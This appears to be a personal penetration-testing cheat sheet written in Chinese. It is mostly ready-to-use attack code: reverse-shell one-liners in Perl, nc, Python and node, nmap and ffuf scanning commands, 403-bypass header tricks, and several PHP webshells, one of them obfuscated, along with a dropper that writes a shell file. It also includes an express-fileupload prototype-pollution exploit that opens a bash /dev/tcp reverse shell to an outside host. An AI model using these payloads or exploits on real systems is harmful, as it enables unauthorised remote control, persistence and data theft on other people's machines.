


# 渗透

## 反弹shell

#### perl反弹shell

```
perl -e 'use Socket;$i="192.168.64.6";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


#### nc不含-e参数反弹shell

```
nc 10.0.0.1 4444 -e /bin/sh
nc 10.0.0.1 3333 | /bin/bash | nc 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.0.14 5555 >/tmp/f
```

#### python反弹shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.65.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

#### python升级shell

```
python -c "import pty; pty.spawn('/bin/bash')"
```
#### sudo node 反弹shell

```
sudo node -e 'child_process.spawn("/bin/bash", {stdio:[0,1,2]})'
```


## 主机发现

#### arp-scan

```
sudo arp-scan -I eth0 -l
```


当没有arp-scan时

#### arping

```
for i in $(seq 1 254); do sudo arping -c 10.0.0.$i; done
```


#### fping

```
fping -gaq 10.1.1.0/24
```

#### nmap
ping扫描
```
nmap -sn 10.0.0.0/24
```



用TCP SYN半开扫描（需要root权限）
```
sudo nmap -sS 10.0.0.0/24
```

TCP CONNEC扫描
```
nmap -sT 10.0.0.0/24
```

## 端口扫描

#### namp

```
sudo namp -p22,80 -A 10.1.1.1
```

`-A` 相当于 -sV  -sC  -O 的组合

包含对应用版本的扫描，以及针对这种应用的常见的脚本的扫描

同时会扫描目标的操作系统的版本


## 暴破

### web路径暴破

#### gobuster

一款可以用来暴破web路径和dns等的工具

```
gobuster dir -u http://10.1.1.1 -w baopo_dir.txt -x txt,php,html,jsp
```

#### dirsearch


#### feroxbuster


### url参数暴破

#### ffuf

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-paramenter-names.txt:PARAM -w baopo_dir.txt:VAL -u http://10.1.1.1/tt.php?PARAM=VAL -fs 0
```

`-fs`是过滤 `0` 是空内容


ps：

可以用一个已知文件来测试参数和文件包含漏洞（假定存在文件包含漏洞）

假定http://10.1.1.1下存在http://10.1.1.1/index.html页面，也就是存在index.html文件，想要暴破http://10.1.1.1/secret/tt.php的参数，那就用一下这种方式来探测：

```
ffuf -w /usr/.../burp-paramenter-names.txt -u http://10.1.1.1/secret/tt.php?FUZZ=../index.html -fs 0
```

假定存在comd参数

测试后发现http://10.1.1.1/secret/index.php?comd=../index.html可以访问到index.html页面，而http://10.1.1.1/secret/tt.php?comd='其他'  和直接访问/secret/tt.php是相同的


## 403bypass

#### 旁站绕过

原理：有些服务端只针对某些主机头进行权限的限制

```
原：
# Request
  GET /auth/login HTTP/1.1
  Host: www.abc.com
# Response
  HTTP/1.1 403 Frobidden
  
绕：
# Request
  GET /auth/login HTTP/1.1
  Host: $xxx$.abc.com
# Response
  HTTP/1.1 200 OK
```

#### URL覆盖

原理：让服务器认为是在请求根目录

```
原：
# Request
  GET /auth/login HTTP/1.1
# Response
  HTTP/1.1 403 Forbidden
  
绕：
# Request
  GET / HTTP/1.1
  X-Original-URL: /auth/login
# Response
  HTTP/1.1 200 OK
  
或：
# Request
  GET / HTTP/1.1
  X-Rewrite-URL: /auth/login
# Response
  HTTP/1.1 200 OK
```

#### Referer绕过

```
原：
# Request
  GET /auth/login HTTP/1.1
# Response
  HTTP/1.1 403 Forbidden

绕：
# Request
  GET /auth/login HTTP/1.1
  Referer: http://xxx.abc.com/login
# Response
  HTTP/1.1 200 OK
```

#### 各种X头绕过

```
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
```


## 其他

#### php url传参执行cmd命令

```php
if(isset($_GET['cmd'])){
    system($_GET['cmd']));
}
```


cyberchef


python升级shell

```
python -c "import pty; pty.spawn('/bin/bash')"
```


#### echo一句话木马 php

```php
\<\?php @eval\(\$_POST\[\'cmd\'\]\)\;\?\>
```


#### express-fileupload漏洞exp

```
import requests
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.65.4/5555 0>&1"'

requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName':(None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
requests.get('http://127.0.0.1:8080')
```


#### seclists

apt install seclists

包含了适用于各种场景的字典


#### 尝试读取php网页的源代码

假定存在这样一个网页：http://asdf.com/evil.php?commond=1

[利用php的filter封装器](http://asdf.com/evil.php?commond=php://filter/convert.base64-encode/resource=evil.php)

正常读取php文件会将php执行后返回，而无法获取它的源码，而采用base64编码后，就不会执行php代码，而直接返回base64的编码。resource后的文件可以是目标服务器上的任何已知确定存在的文件。


#### php马

(未经验证)  
```php
<?php
	$bb = str_replace($_GET['key'], '', 'create_function');
	$aa = $bb('$a', 'ev'.'al($a);');
	$t = str_replace($_GET['key'], '', 'assxxxert');
	$t($_POST['pass']);
?>
```
key is 'x'


# 杂

**$1$** is MD5
**$2a$** is Blowfish
**$2y$** is Blowfish
**$5$** is SHA-256
**$6$** is SHA-512


file_include传马



```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["bgxg"]); ?>'); ?>
```


